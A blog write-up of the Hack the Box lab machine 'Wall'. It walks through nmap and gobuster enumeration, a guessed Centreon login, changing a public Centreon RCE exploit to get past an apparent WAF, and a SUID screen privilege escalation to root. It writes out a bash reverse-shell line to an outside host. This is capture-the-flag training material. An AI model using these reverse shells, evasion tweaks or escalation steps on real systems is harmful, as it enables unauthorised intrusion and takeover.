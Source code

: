 +++
author = "Nick"
categories = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
date = 2019-12-07T13:15:15Z
description = ""
draft = false
thumbnail = "/images/2019/11/wall.png"
slug = "hack-the-box-wall"
summary = "Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as an easy box, let's jump in!"
tags = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
title = "Hack the Box - Wall"
url = "/hack-the-box-wall"

+++


Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as a medium box, let's jump in!

As normal we start our enumeration process with ```nmap```. 

```nmap -sC -sV -oA initial_scan 10.10.10.157```

our results are pretty standard:

```
Nmap scan report for 10.10.10.157
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Let's head over to see what's being hosted. 

We see a standard ```apache2``` install. So we're going to want to enumerate this site a bit. We'll add it to our hostfile as wall.htb and send it into ```gobuster```.

We run:
```gobuster dir -u http://wall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40```

We only get back two standard results

![](/images/2019/11/image-16.png)

Since I didn't specify the ```-x``` parameter on the initial scan, we need to run it again for file extensions. We see there are a few with the .php extension.

![](/images/2019/11/image-17.png)

There are some interesting files and folders after enumeration. There doesn't seem to be much we can do with the two new ```php``` files. When we open ```Burpsuit``` and start to poke the site with ```GET``` and ```POST``` requests, we see that if we send a ```POST``` request to ```/monitoring/``` we are redirected to ```/centreon```.

![](/images/2019/11/image-18.png)

We go to the address and are greated with a login form. We see the version running is 19.04. A quick ```searchsploit``` on Centreon shows us that there is an RCE for this particular version.

![](/images/2019/11/image-19.png)

We can copy this exploit to our current working directory with the ```-m``` command of ```searchsploit```.

```searchsploit centreon -m 47069```.

When we run the exploit we see our options:

![](/images/2019/11/image-20.png)

In this case we'll need to obtain user credentials to run the exploit. Now you can brute force this login with a few options, ```hydra```, ```wfuzz``` or just write your own. In my case guessing the password without doing any of those worked out, turns out password1 isn't exactly hard to guess. Now that we have some credentials, we can use this exploit. 

So we give our exploit our credentials and our IP and port. Start a new NC listener and fire it off... Nothing. Hmmm, so We will modify the exploit to show us what might be going on. We modify the last bit of lines to show as this:

![](/images/2019/11/image-25.png)

Now that we will get back some data on what might be going on, we run it again and see what's not working. We get back some XML data but it seems that it's working. There could be a WAF in place blocking the standard malicious payloads. So we'll again modify our script to simply take the payload we give it.

To do this we will change the amount of arguments our script takes. We will remove the line 30 & 31 for  ```ip``` and ```port```. We will then create an argument called ```payload```. We also need to modify the expected length on line 22. We should have something like this:

![](/images/2019/11/image-26.png" caption=")

We then need to modify our ```payload_info```. Line 69 is where the payload the default exploit would use. However, we can simply replace this payload with the variable ```payload```. This way we can modify our payload on the go to evade whatever might be blocking the standard payload.

![](/images/2019/11/image-27.png)

Our first goal will be to test it. We will execute our newly modified script to test that it works. We will start up a ```SimpleHTTPServer``` and host a file. We will then issue ```wget``` and see if the file is retrieved. In this case I made a quick file called shell.sh which has the standard bash remote connection:

```bash -i >& /dev/tcp/10.10.15.154/4444 0>&1```

We fire off our new exploit and we see it connect back to us and download the file.

![](/images/2019/11/image-28.png)

Below we see that the exploit has indeed worked.

![](/images/2019/11/image-21.png)

Next we have to move our file to the ```/tmp``` directory just to be sure it can run.  Then change the permissions of our script so it can execute.

![](/images/2019/11/image-22.png)

We then fire up our listener and tell the script to execute. The first few times I tried this, I was unable to get a shell on random ports. So we just use the good ol' port 53 trick.

![](/images/2019/11/image-24.png)

We get a shell back as ```www-data```! Now that we are on the machine, we can start enumerating. We download ```linenum``` and see what it comes back with. One item that is noticeable is ```screen-4.5.0``` in our SUID section.

![](/images/2019/11/image-29.png)

A quick ```searchsploit``` for screen comes back with two possible Local Privilege Escalations.

![](/images/2019/11/image-30.png)

We will download the exploit, host it on our server and get it from the target machine.

![](/images/2019/11/image-31.png)

The exploit will error, however if we check the directory, we see our shell file ```rootshell```.  After that we run it and we have root shell:

![](/images/2019/11/image-33.png)

We then grab the user flag. The box is done!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

